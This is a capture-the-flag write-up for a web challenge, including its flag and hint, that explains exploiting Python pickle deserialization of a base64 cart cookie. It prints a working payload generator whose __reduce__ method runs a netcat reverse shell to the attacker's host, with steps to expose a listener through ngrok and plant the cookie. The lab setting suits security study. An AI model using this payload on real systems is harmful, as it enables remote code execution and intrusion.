 A serial killer has decided to sell all his victims' possessions on this website. Hack it before he sells any of the items!

300pts(hard)
ApoorvCTF{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}
hint cost: 50pts
hint: try to find where the cart items of the user are stored
web exploiation
#web

Writeup:
Challenge name and description suggests that this a deserialization vulnerability involving the pickle module from python.
Upong accessing and using the site we see that cart items are somehow stored in a cookie in a serialized base64 encoded form.
When serialized objects are deserialized they are initialized and instantiated using some pre defined methods before being used later on in the code.
One such method is the __reduce__() method which we can alter for our purpose.
So we can create an object with a malicious __reduce__() method which would essentially be a reverse shell payload.
Here, we are going to use a netcat reverse shell payload.

Script to generate our malicious serialized cart value:

import pickle, base64, os

class payload(object):
    def __reduce__(self):
        return (os.system, (f'nc -nv <your ip> <port> -e /bin/bash',))

deserialpayload = payload()
serialpayload = pickle.dumps(deserialpayload)
print(base64.b64encode(serialpayload))

Now to provide our ip, we need to use port forwarding using ngrok since we are connected to the internet using a router and only the router's ip is visible to the internet.
First setup a netcat listener using nc -nvlp 1234
Now, after installing and setting up ngrok, execute ngrok tcp 1234 which would basically forward our local tcp port 1234 to an external port directly accessible from the internet.
Note down the domain name of the external address and the port given by ngrok for our use.
Now, execute ping <domain name> to find the ip address of that domain name. (You can use any other method to find the domain name)
Now put this ip address in place of "<your ip>" and the port we got from ngrok in place of <port> in the python script.
Execute it to get the serialized cart value and set it as your cookie.
Now click on Cart on the website and voila you have a shell!
